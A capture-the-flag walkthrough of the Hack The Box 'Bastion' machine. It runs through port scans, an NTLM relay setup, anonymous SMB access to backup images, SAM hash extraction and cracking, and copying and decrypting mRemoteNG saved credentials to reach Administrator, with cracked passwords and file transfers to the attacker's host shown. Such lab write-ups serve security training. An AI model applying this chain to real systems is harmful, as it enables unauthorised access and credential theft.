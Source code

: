 ```

PORT      STATE  SERVICE      VERSION
22/tcp    open   ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open   msrpc        Microsoft Windows RPC
139/tcp   open   netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open   microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
1941/tcp  closed dic-aida
2396/tcp  closed wusage
5985/tcp  open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
12934/tcp closed unknown
16859/tcp closed unknown
34061/tcp closed unknown
35874/tcp closed unknown
38146/tcp closed unknown
47001/tcp open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open   msrpc        Microsoft Windows RPC
49665/tcp open   msrpc        Microsoft Windows RPC
49666/tcp open   msrpc        Microsoft Windows RPC
49667/tcp open   msrpc        Microsoft Windows RPC
49668/tcp open   msrpc        Microsoft Windows RPC
49669/tcp open   msrpc        Microsoft Windows RPC
49670/tcp open   msrpc        Microsoft Windows RPC
52306/tcp closed unknown
64719/tcp closed unknown
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m58s, deviation: 34m35s, median: 0s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-11-13T11:45:34+01:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2024-11-13T10:45:32
|_  start_date: 2024-11-13T10:18:22


```

```
PORT      STATE SERVICE      REASON
22/tcp    open  ssh          syn-ack ttl 127
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
5985/tcp  open  wsman        syn-ack ttl 127
47001/tcp open  winrm        syn-ack ttl 127
49664/tcp open  unknown      syn-ack ttl 127
49665/tcp open  unknown      syn-ack ttl 127
49666/tcp open  unknown      syn-ack ttl 127
49667/tcp open  unknown      syn-ack ttl 127
49668/tcp open  unknown      syn-ack ttl 127
49669/tcp open  unknown      syn-ack ttl 127
49670/tcp open  unknown      syn-ack ttl 127
```

Taking a look to the smb*-security-mode,  we can observe that the signing is disabled, which is quite risky as we can perform an NTLM Relay Attack.
https://securance.com/news/smb-signing/

It looks like I cannot run the ntlmrelayx.py from impackets suite due to some permissions issues. After some struggling, I've set the network capabilities to the python3.8 binary to avoid issues:

```
sudo setcap 'cap_net_bind_service=+ep' /usr/bin/python3.8
```

So let's perform a #ntlm-relay-attack . We first set up the #repetier without the SMB and HTTP servers and the #ntlmrelayx tool:
```
./Responder.py -I tun0 -d -w -P
python3 ntlmrelayx.py -t $(cat ../../htb/tracks/crest_crt/bastion/ip)
```

Then we have everything set up, but we need some user to actually log into the system so we can capture their credentials.

Let's now check SMB to see if there is anything interesting over there:
```
smbclient -N -L //10.10.10.134

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	Backups         Disk
	C$              Disk      Default share
	IPC$            IPC       Remote IPC

```

Connection to Backups succeeded:
```
smbclient //$(cat ip)/Backups -N

smb: \WindowsImageBackup\> ls
  .                                  Dn        0  Fri Feb 22 13:44:02 2019
  ..                                 Dn        0  Fri Feb 22 13:44:02 2019
  L4mpje-PC                          Dn        0  Fri Feb 22 13:45:32 2019

# Looks like a pc identifier L4mpje-PC
```
After searching further we managed to find some `.vhd` files. After retrieving them, we can try to access them and retrieve the SAM and SYSTEM file to extract some hashes:
#vhd #sam  #samdump2 
```
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
After doing so we retrieve those hashes, and as long as they are a NTLM hash, we try to decrypt them with hascat:
#hashcat 
```
hashcat -h | grep -i NTLM
hashcat -m 1000 -a 0 L4mpje.hash $SECLIST/../rockyou.txt

26112010952d963c8dc4217daec986d9:bureaulampje
```

After having some credentials, we can directly try to access the remote machine through ssh:
user.txt
```
acd87...
```

After running WinPEAS.exe we didn't find anything interesting. So let's take a look to the programs installed on the machine. We observe some interesting SW named `mRemoteNG` and after a quick search we can find that there's an affected version that can lead to a PEAS. https://github.com/mRemoteNG/mRemoteNG/issues/2338
```
mRemoteNG.exe NT AUTHORITY\SYSTEM:(I)(F)
                                               BUILTIN\Administrators:(I)(F)
                                               BUILTIN\Users:(I)(RX)
                                               APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                               APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
```

After some googling, we find out which is the file where the credentials are stored for mRemoteNG service: `confCons.xml`

After navigating through `C:\Users\L4mpje\AppData\Roaming\mRemoteNG` we find the `confCons.xml` file, so it's time to retrieve it:
```
scp .\confCons.xml lotape6@10.10.16.6:/home/lotape6

# it does not work, so lets try the autheticated version

scp -i .\confCons.xml lotape6@10.10.16.6:/home/lotape6
```
Finally, the key was to retrieve it with sftp from the host machine:
```
sftp $(cat user)@$(cat ip):AppData/Roaming/mRemoteNG/confCons.xml confCons.xml
```
Then we can directly go and search how to decrypt this information and found this repo: https://github.com/gquere/mRemoteNG_password_decrypt
```
Name: DC
Hostname: 127.0.0.1
Username: Administrator
Password: thXLHM96BeKL0ER2

Name: L4mpje-PC
Hostname: 192.168.1.75
Username: L4mpje
Password: bureaulampje
```

And that's it, we can now log in as `Administrator` and do whatever:
root.txt
```
5287...
```
